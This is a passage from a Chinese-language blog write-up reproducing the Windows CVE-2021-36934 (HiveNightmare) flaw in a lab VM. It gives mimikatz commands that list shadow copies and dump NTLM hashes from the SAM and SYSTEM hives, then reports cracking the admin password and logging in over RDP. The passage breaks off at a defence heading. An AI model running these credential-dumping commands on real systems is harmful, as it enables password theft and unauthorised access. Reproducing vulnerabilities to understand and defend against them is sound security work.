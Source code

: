   

![](https://gitee.com/fuli009/images/raw/master/public/20210806182719.png)

  

(4)复现环境为win10虚拟机，已经创建还原点

  

mimikatz最新版已经把这个漏洞武器化，可以一键操作

  

  * 

    
    
    misc::shadowcopies

  

![](https://gitee.com/fuli009/images/raw/master/public/20210806182720.png)

  

获取安全帐户管理器（SAM）数据库，它包含用户密码的 NTLM，有时包含 LM 哈希

  

  * 

    
    
    lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\DeviceHarddiskVolumeShadowCopy1\Windows\System32\config\SAM

  

![](https://gitee.com/fuli009/images/raw/master/public/20210806182721.png)

  

winadmin是管理员账户，破解hash值，密码为winadmin@123

  

![](https://gitee.com/fuli009/images/raw/master/public/20210806182722.png)

  

3389连接这台win10虚拟机，如果win10没有3389端口，可以手动打开

  

![](https://gitee.com/fuli009/images/raw/master/public/20210806182723.png)

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210806182724.png)

  

从以上情况可以简单总结CVE-2021-36934漏洞触发需要系统盘大于128G或者是创建了还原点

  

#  **3.防御措施**
